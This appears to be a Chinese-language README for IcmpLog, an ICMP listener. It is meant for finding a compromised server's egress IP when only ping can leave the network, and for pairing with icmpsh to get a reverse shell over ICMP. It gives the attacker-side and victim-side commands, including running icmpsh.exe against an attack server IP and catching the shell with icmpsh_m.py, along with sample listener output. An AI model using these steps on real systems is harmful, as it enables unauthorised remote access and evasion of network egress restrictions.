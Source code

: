 # IcmpLog
一个监听icmp请求的小程序
- 用于只在ping出网的情况下获取服务器的出口地址。
- 可以配合[icmpsh](https://github.com/bdamele/icmpsh)实现仅在Icmp出网的情况下获取服务器反弹shell

## 使用
攻击端执行
```
{21-07-08 16:04}mail:~ root# ./icmplog [Attack Server IP]
```
[Attack Server IP]为要监听的服务端IP地址  
被攻击机执行
```
ping [Attack Server IP]
```
服务端回显
```
2021/07/08 16:04:44 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:45 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:46 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:47 message = '', length = 0, source-ip = *.*.*.109
```
之后利用icmpsh
被攻击机执行
```
.\icmpsh.exe -t [Attack Server IP]
```
攻击机执行
```
python2.7 icmpsh_m.py [Attack Server IP] *.*.*.109
```
即可获取反连的shell
